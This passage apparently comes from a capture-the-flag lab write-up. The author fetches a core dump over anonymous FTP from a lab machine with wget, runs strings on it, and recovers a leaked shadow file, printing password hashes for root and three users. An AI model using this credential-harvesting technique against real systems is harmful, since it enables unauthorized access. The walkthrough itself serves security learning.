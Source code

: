     root@kali:~# wget ftp://192.168.1.110/download/etc/core
    --2017-09-09 01:53:57-- ftp://192.168.1.110/download/etc/core
               => ‘core’
    Connecting to 192.168.1.110:21... connected.
    Logging in as anonymous ... Logged in!
    ==> SYST ... done. ==> PWD ... done.
    ==> TYPE I ... done. ==> CWD (1) /download/etc ... done.
    ==> SIZE core ... 362436
    ==> PASV ... done. ==> RETR core ... done.
    Length: 362436 (354K) (unauthoritative)
    
    core 100%[============================================================================>] 353,94K --.-KB/s in 0,001s  
    
    2017-09-09 01:53:57 (275 MB/s) - ‘core’ saved [362436]

`file` confirms my suspicions; it sure is a coredump file:

    root@kali:~# file core
    core: ELF 32-bit LSB core file Intel 80386, version 1 (SYSV)

I'm not too familiar with analysing coredumps, so I'll just resort to searching for any leftover `strings`.

    root@kali:~# strings core
    ...
    .dynamic
    .useless
    root:$1$aQo/FOTu$rriwTq.pGmN3OhFe75yd30:13574:0:::::bin:*:9797:0:::::daemon:*:9797:0:::::adm:*:9797:0:::::lp:*:9797:0:::::sync:*:9797:0:::::shutdown:*:9797:0:::::halt:*:9797:0:::::mail:*:9797:0:::::news:*:9797:0:::::uucp:*:9797:0:::::operator:*:9797:0:::::games:*:9797:0:::::ftp:*:9797:0:::::smmsp:*:9797:0:::::mysql:*:9797:0:::::rpc:*:9797:0:::::sshd:*:9797:0:::::gdm:*:9797:0:::::pop:*:9797:0:::::nobody:*:9797:0:::::aadams:$1$klZ09iws$fQDiqXfQXBErilgdRyogn.:13570:0:99999:7:::bbanter:$1$1wY0b2Bt$Q6cLev2TG9eH9iIaTuFKy1:13571:0:99999:7:::ccoffee:$1$6yf/SuEu$EZ1TWxFMHE0pDXCCMQu70/:13574:0:99999:7:::

Now hold on just a moment. Do I see a `shadow` there, with the users I previously found? Quickly formatting the string yields the following:

    root:$1$aQo/FOTu$rriwTq.pGmN3OhFe75yd30:13574:0:::::
    bin:*:9797:0:::::
    daemon:*:9797:0:::::a
    dm:*:9797:0:::::
    lp:*:9797:0:::::
    sync:*:9797:0:::::
    shutdown:*:9797:0:::::
    halt:*:9797:0:::::
    mail:*:9797:0:::::
    news:*:9797:0:::::
    uucp:*:9797:0:::::
    operator:*:9797:0:::::
    games:*:9797:0:::::
    ftp:*:9797:0:::::
    smmsp:*:9797:0:::::
    mysql:*:9797:0:::::
    rpc:*:9797:0:::::
    sshd:*:9797:0:::::
    gdm:*:9797:0:::::
    pop:*:9797:0:::::
    nobody:*:9797:0:::::
    aadams:$1$klZ09iws$fQDiqXfQXBErilgdRyogn.:13570:0:99999:7:::
    bbanter:$1$1wY0b2Bt$Q6cLev2TG9eH9iIaTuFKy1:13571:0:99999:7:::
    ccoffee:$1$6yf/SuEu$EZ1TWxFMHE0pDXCCMQu70/:13574:0:99999:7:::
